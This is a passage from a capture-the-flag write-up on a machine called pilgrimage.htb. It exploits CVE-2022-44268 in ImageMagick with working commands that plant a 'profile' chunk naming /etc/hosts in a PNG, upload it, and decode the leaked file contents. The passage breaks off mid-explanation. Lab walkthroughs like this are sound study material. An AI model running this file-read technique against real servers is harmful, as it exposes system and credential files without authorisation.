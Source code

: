 As we can see through the magick binary the backend is using `ImageMagick` to manipulate the images. When looking for ImageMagick exploitation paths on the web I found a few interesting pages:

- [https://www.synacktiv.com/en/publications/playing-with-imagetragick-like-its-2016](https://www.synacktiv.com/en/publications/playing-with-imagetragick-like-its-2016) & [https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/) : Didn’t manage to make the exploits from these pages work
- [https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC](https://github.com/duc-nt/CVE-2022-44268-ImageMagick-Arbitrary-File-Read-PoC) : This one is based on CVE-2022-44268 which works on `magick 7.1.0-49` . You can check the version of the binary running

```php
./magick -version
```

However this fails because the binary isn’t compatible with my pc architecture (arm64).

![Untitled](images/Untitled%207.png)

→ Therefore I choose to test it the hard by creating the image following and the POC and see if it works or not and surprise it works !

```php
convert -size 320x240 xc:skyblue input.png
pngcrush -text a "profile" "/etc/hosts" input.png crushed_input.png
exiv2 -pS crushed_input.png #verify the output

### Upload the crushed_input.png image on pilgrimage.htb
### Follow the link that the app responds to us and download the image that appears
### Run the following steps on the downloaded image

identify -verbose download.png
python3 -c 'print(bytes.fromhex("<HEX_CONTENT>").decode("utf-8"))'
```

Here is how you identify the `HEX_CONTENT` value:
